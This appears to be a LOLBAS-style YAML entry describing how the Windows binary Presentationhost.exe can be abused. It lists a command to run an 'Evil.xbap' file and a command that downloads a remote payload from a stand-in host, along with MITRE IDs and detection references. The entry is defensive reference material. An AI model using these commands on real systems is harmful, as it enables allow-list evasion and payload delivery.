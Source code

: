 ```yaml
---
Name: Presentationhost.exe
Description: File is used for executing Browser applications
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Presentationhost.exe C:\temp\Evil.xbap
    Description: Executes the target XAML Browser Application (XBAP) file
    Usecase: Execute code within xbap files
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: Presentationhost.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\Presentationhost.exe
  - Path: C:\Windows\SysWOW64\Presentationhost.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_presentationhost.yml
  - IOC: Execution of .xbap files may not be common on production workstations
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```


